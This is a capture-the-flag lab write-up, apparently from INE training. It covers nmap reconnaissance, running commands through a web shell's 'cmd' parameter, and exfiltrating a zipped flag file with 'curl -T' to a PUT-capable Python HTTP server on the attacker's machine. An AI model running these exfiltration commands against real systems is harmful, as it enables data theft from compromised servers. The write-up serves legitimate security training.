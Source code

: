 # Data Exfiltration

## 🔬

The Kali OS GUI instance is web hosted on the INE website, where:

- You have exploited a vulnerable API endpoint and overwritten it with malicious code. This modification allows you to run commands on the server machine hosting the API, as a *low privilege user* (i.e. student). A sensitive flag file is kept in a zipped archive file in the *student user's home directory*.
- There is a monitor process running on the server machine that blocks most protocols *except HTTP protocol* (when using port **80**).
- The API endpoint is accessible at `demo.ine.local` domain.

*Objective*: Transfer the zipped archive to your Kali machine using HTTP protocol and retrieve the flag!

***Tools*** used:

- **`nmap`**, **`curl`**
- A web browser
- Python Scripting

## SOLUTION

- Check Kali instance IP address and ping the vulnerable server.

  - **`ip -br -c a`**
  - **`ping demo.ine.local`**

  ```shell
  root@INE:~# ip -br -c a
  eth1@if126466    UP             192.70.33.2/24 
  lo               UNKNOWN        127.0.0.1/8 
  ip_vti0@NONE     DOWN           
  eth0@if126463    UP             10.1.0.17/16
  
  root@INE:~# ping demo.ine.local
  PING demo.ine.local (192.70.33.3) 56(84) bytes of data.
  64 bytes from demo.ine.local (192.70.33.3): icmp_seq=1 ttl=64 time=0.159 ms
  ```

- The web server IP is `192.70.33.3` 

### nmap

- Perform an `nmap` scan to check open ports on the server:

  - *Simple scan*:

    **`sudo nmap demo.ine.local`**

  ```shell
  root@INE:~# sudo nmap demo.ine.local
  Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-05 15:34 IST
  Nmap scan report for demo.ine.local (192.70.33.3)
  Host is up (0.0000080s latency).
  Not shown: 999 closed tcp ports (reset)
  PORT     STATE SERVICE
  8000/tcp open  http-alt
  MAC Address: 02:42:C0:46:21:03 (Unknown)
  
  Nmap done: 1 IP address (1 host up) scanned in 0.29 seconds
  ```

  - *Advanced scan*:
    
    **`sudo nmap -sC -sV -oA nmap/dataexfiltration 192.70.33.3`**
    
    - **`-sC`** - for default scripts
    - **`-sV`** - probe open ports to determine service/versions info
    - **`-oA`** - output all 3 major formats in a directory

  ```shell
  root@INE:~# less nmap/dataexfiltration.nmap
  
  # Nmap 7.92 scan initiated Thu May  5 14:31:09 2022 as: nmap -sC -sV -oA nmap/dataexfiltration 192.70.33.3
  Nmap scan report for demo.ine.local (192.70.33.3)
  Host is up (0.0000080s latency).
  Not shown: 999 closed tcp ports (reset)
  PORT     STATE SERVICE VERSION
  8000/tcp open  http    Werkzeug httpd 0.15.2 (Python 2.7.16)
  |_http-title: Site doesn't have a title (text/html; charset=utf-8).
  MAC Address: 02:42:C0:46:21:03 (Unknown)
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  # Nmap done at Thu May  5 14:31:15 2022 -- 1 IP address (1 host up) scanned in 6.91 seconds
  ```

  - A Python2 web server (Werkzeug) is running on open port **8000**.

- Check the response from a browser by visiting `http://demo.ine.local:8000/`

![](.gitbook/assets/image-20220505111539250.png)

### Web shell commands

- Pass a parameter named `cmd` with the URL, using `?cmd=VALUE` in the URL:
  - **`http://demo.ine.local:8000/?cmd=pwd`**

![](.gitbook/assets/image-20220505120650948.png)

  - **`http://demo.ine.local:8000/?cmd=ls+-l`** - check contents of pwd:

![](.gitbook/assets/image-20220505120905753.png)

- *flag.zip* file must be transferred to the Kali instance.

- Check if `curl` command is present on the server

  - **`http://demo.ine.local:8000/?cmd=curl+-h`** - curl is present:

![](.gitbook/assets/image-20220505121245432.png)

  - `curl` can be used to exfiltrate the flag.zip file by sending it over HTTP protocol to a local HTTP server on the Kali instance, using the **`-T`** option:

  > -T, --upload-file <file>
  >               This transfers the specified local file to the remote URL. If  there  is  no
  >               file  part  in the specified URL, curl will append the local file name. NOTE
  >               that you must use a trailing / on the last directory to really prove to Curl
  >               that  there is no file name or curl will think that your last directory name
  >               is the remote file name to use. That will most likely cause the upload oper‐
  >               ation to fail. If this is used on an HTTP(S) server, the PUT command will be
  >               used.

### Python HTTP server

- Run a HTTP server on the local machine using python:
  - **`python -m SimpleHTTPServer 80`**

  - The Kali instance IP is `192.70.33.2`

  - `http://demo.ine.local:8000/?cmd=curl+192.70.33.2+-T+flag.zip`
  - *Error response - Unsupported method ('PUT')*

![](.gitbook/assets/image-20220505125425734.png)

- (Same error with **`python3 -m http.server 80`**)
- Create a Python script to run an *HTTP server supporting PUT*.

  ```shell
  root@INE:~# which python
  /usr/bin/python
  
  root@INE:~# nano httpserver.py
  ```

  - Add the following code to the htttserver.py script:

  ```python
  #!/usr/bin/python
  import SimpleHTTPServer
  import BaseHTTPServer
  
  class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
      def do_PUT(self):
          print self.headers
          length = int(self.headers["Content-Length"])
          path = self.translate_path(self.path)
          with open(path, "wb") as dst:
              dst.write(self.rfile.read(length))
  
  
  if __name__ == '__main__':
      SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
  ```

  > *Thanks to [BigBlueHat](https://gist.github.com/BigBlueHat/0ca3894f715aac2f2e40af3a8aa0a436) for the script.*

  - Run the SimpleHTTP server using the script:
    - **`python httpserver.py 80`**
  - Try again the PUT request
    `http://demo.ine.local:8000/?cmd=curl+192.70.33.2+-T+flag.zip`
    - Archive flag.zip was received by the server.

![](.gitbook/assets/image-20220505130449931.png)

- Stop the running HTTP server and check the folder for the downloaded file.

  - **`ls -l`**

![](.gitbook/assets/image-20220505131132654.png)

- Unzip the archive and retrieve the flag:

  - **`unzip flag.zip`**
  - **`cat flag/flag.txt`**

![](.gitbook/assets/image-20220505131635395.png)

> 📍 Lab solved!
